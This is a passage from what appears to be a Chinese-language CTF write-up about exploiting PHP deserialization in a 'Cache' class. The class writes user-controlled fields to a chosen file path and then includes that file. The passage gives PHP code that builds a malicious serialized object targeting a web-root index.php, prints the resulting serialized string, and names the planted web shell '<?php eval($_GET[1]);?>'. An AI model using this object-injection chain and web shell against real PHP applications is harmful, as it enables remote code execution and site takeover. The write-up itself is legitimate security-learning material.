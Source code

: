 ```
        $this->html=sprintf('<!DOCTYPE HTML><html><head><title>LOL</title><meta charset="utf-8" /><meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" /><link rel="stylesheet" href="/static/css/main.css" /><noscript><link rel="stylesheet" href="/static/css/noscript.css" /></noscript>   </head> <body class="is-preload"><div id="wrapper"><header id="header"> <div class="logo"><span class="icon fa-diamond"></span> </div>  <div class="content"><div class="inner">    <h1>Hero of you</h1></div>  </div>  <nav><ul>   <li><a href="#you">YOU</a></li></ul>    </nav></header><div id="main"><article id="you">    <h2 class="major" ng-app>%s</h2>    <span class="image main"><img src="%s" alt="" /></span> <p>%s</p><button type="button" onclick=location.href="/download/%s">下载</button></article></div><footer id="footer"></footer></div><script src="/static/js/jquery.min.js"></script><script src="/static/js/browser.min.js"></script><script src="/static/js/breakpoints.min.js"></script><script src="/static/js/util.js"></script><script src="/static/js/main.js"></script><script src="/static/js/angular.js"></script>   </body></html>',substr($this->data['name'],0,62),$this->data['image'],$this->data['message'],session_id().'.jpg');

        if(file_put_contents($this->path,$this->html)){
            include($this->path);
        }
    }
}
```

在cache 类中，`name`和`message`的值通过 POST 请求得到，然后在传入到 `path`页面，这样一来，就很清楚了，我们控制`name`和`message`一个变量的值，然后再选择一个`path`，最终会在我们选择的`path`页面生成我们想要的东西，payload 如下：

```
<?php

class Cache{
    public $data ;
    public $sj;
    public $path = '/Library/WebServer/Documents/ctf/index.php';
    public $html;

}
    $str = new Cache();
    $str->data= [
    "name" => "payload",
    "message" => "panda",
    "image" => "panda"
];
    echo serialize($str);

?>
```

生成序列化值如下：

```
O:5:"Cache":4:{s:4:"data";a:3:{s:4:"name";s:7:"payload";s:7:"message";s:5:"panda";s:5:"image";s:5:"panda";}s:2:"sj";N;s:4:"path";s:42:"/Library/WebServer/Documents/ctf/index.php";s:4:"html";N;}
```

然后将 `name` 中`payload`的值改成`<?php eval($_GET[1]);?>`，如下：
